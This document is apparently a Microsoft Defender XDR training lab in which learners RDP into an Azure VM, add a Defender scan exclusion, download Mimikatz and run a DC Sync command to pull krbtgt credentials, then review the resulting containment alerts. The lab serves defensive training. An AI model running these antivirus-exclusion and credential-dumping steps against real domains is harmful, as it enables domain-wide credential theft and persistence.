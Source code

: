 # Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

#### **Disable Windows Defender and Antivirus**

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      ![VMrdp](./media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      ![VMrdp](./media/xdr26.png)

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      ![VMrdp](./media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      ![VMrdp](./media/xdr28.png)

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      ![VMrdp](./media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      ![VMrdp](./media/vm8.png)
   
1. In the Windows Security window, select **More Choices.**

      ![VMrdp](./media/xdr24.png)

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      ![VMrdp](./media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      ![VMrdp](./media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      ![image](./media/attack2.png)

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

      ![image](./media/attack1.png)

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      ![image](./media/attack1.png)

1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

      ```powershell
      cd mimikatz\x64
      ```

      ![image](./media/attack1.png)

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

      ![image](./media/attack1.png)

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      ![image](./media/attack1.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in.

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       ![](./media/E1T3S3upd.png)

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you:
- Launched the Mimikatz tool from PowerShell (Admin) to simulate a DC Sync attack.
- Attempted to extract the credentials of the `krbtgt` account.
- Observed automatic containment measures initiated by Microsoft Defender for Identity.
- Verified alerts in the Microsoft Defender portal for blocked lateral movement attempts via remote logon and RDP.

## You have successfully completed the lab. Click on Next to Continue
